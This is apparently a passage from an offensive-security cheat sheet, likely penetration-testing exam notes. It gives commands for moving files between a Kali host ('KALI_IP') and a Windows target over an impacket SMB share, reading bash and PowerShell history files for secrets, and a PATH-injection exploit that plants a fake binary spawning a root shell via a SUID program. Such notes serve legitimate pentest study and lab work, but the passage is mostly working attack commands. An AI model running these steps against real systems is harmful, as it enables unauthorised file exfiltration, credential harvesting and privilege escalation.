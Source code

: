 #### SMB (recommended)
```bash
# Kali side
impacket-smbserver share . -smb2support -username USER -password PASS
```
```cmd
# Windows side
net use Y: \\KALI_IP\share /user:USER PASS
# After established connection
# Transfer from windows to Kali
copy FILE Y:\
# Transfer from kali to windows
copy Y:\File .\
```

## 4. Priv Esc
PE techniques let you get root/administrator access to the system
### Local Enumeration Tool
[Linpeas, Winpeas](https://github.com/carlospolop/PEASS-ng/tree/master) for informative system enumeration

[pspy](https://github.com/DominicBreuker/pspy) for linux process monitoring

[SharpUp, Seatbelt](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries) for windows priv esc vector

[Rubeus](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries) for active directory attack in windows host

### Checklist
```bash
# check if any notes useful in your landing directory with
ls -la # linux
# Check history file
cat /home/USER/.bash_history
```
```powershell
gci -force 
gc C:\users\*\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

### Linux binary exploit
If the linpeas enum highlighted some binaries for exploit, check

[GTFObins](https://gtfobins.github.io/)



### Path injection or relative path exploit
```bash
# If there is an unknown SUID invoking another binary 
# that does not use absolute path
# And you can manipulate the PATH variable
# Create that binary like
echo "#!/bin/bash" > /tmp/THAT_BINARY
echo "/bin/bash -ip" >> /tmp/THAT_BINARY
export PATH=/tmp:$PATH
# Execute the suid binary and you will get root
```
